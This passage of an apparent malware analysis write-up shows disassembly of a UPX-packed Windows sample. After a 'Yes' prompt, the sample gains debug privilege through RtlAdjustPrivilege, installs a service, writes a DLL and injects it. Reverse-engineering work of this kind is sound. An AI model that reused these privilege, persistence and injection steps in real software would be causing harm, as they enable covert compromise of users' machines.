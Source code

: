 ```Assembly
UPX0:00401215         retn    10h
UPX0:00401218 ; ---------------------------------------------------------------------------
UPX0:00401218
UPX0:00401218 YES_401218:                             ; CODE XREF: entry_4011F0+1Bj
UPX0:00401218         push    esi
UPX0:00401219         lea     ecx, [ebp+var_4]
UPX0:0040121C         mov     [ebp+var_4], 0
UPX0:00401223         call    start_402BE0
UPX0:00401228         mov     esi, [ebp+var_4]
UPX0:0040122B         test    esi, esi
UPX0:0040122D         jz      short loc_40123D
UPX0:0040122F         push    esi
UPX0:00401230         call    kernel32_ReleaseMutex
UPX0:00401236         push    esi
UPX0:00401237         call    kernel32_CloseHandle
UPX0:0040123D
UPX0:0040123D loc_40123D:                             ; CODE XREF: entry_4011F0+3Dj
UPX0:0040123D         xor     eax, eax
UPX0:0040123F         pop     esi
UPX0:00401240         mov     esp, ebp
UPX0:00401242         pop     ebp
UPX0:00401243         retn    10h
UPX0:00401243 entry_4011F0 endp
```

If "Yes" is pressed, then function `start_402BE0` is executed:
```Assembly
UPX0:00402C15 loc_402C15:                             ; CODE XREF: start_402BE0+2Cj
UPX0:00402C15         push    offset aNtdll_dll       ; "ntdll.dll"
UPX0:00402C1A         call    kernel32_LoadLibraryW
UPX0:00402C20         test    eax, eax
UPX0:00402C22         jz      short ERROR_402C0E
UPX0:00402C24         push    offset aRtladjustprivi  ; "RtlAdjustPrivilege"
UPX0:00402C29         push    eax
UPX0:00402C2A         call    off_40D07C
UPX0:00402C30         test    eax, eax
UPX0:00402C32         jz      short ERROR_402C0E
UPX0:00402C34         lea     ecx, [ebp+var_1]
UPX0:00402C37         push    ecx
UPX0:00402C38         push    0
UPX0:00402C3A         push    1
UPX0:00402C3C         push    14h
UPX0:00402C3E         mov     [ebp+var_1], 0
UPX0:00402C42         call    eax                     ; RtlAdjustPrivilege
UPX0:00402C44         test    eax, eax
UPX0:00402C46         js      short ERROR_402C0E
UPX0:00402C48         mov     ecx, esi
UPX0:00402C4A         call    write_secret_4022A0
UPX0:00402C4F         test    eax, eax
UPX0:00402C51         jz      short ERROR_402C0E
UPX0:00402C53         lea     edx, [ebp+var_8]
UPX0:00402C56         push    edx
UPX0:00402C57         mov     ecx, esi
UPX0:00402C59         mov     [ebp+var_8], 0
UPX0:00402C60         call    install_service_402950
UPX0:00402C65         test    eax, eax
UPX0:00402C67         jz      short ERROR_402C0E
UPX0:00402C69         mov     ecx, esi
UPX0:00402C6B         call    write_mswow_dll_402640
UPX0:00402C70         test    eax, eax
UPX0:00402C72         jz      short ERROR_402C0E
UPX0:00402C74         mov     ecx, esi
UPX0:00402C76         call    inject_dll_4012C0
UPX0:00402C7B         test    eax, eax
```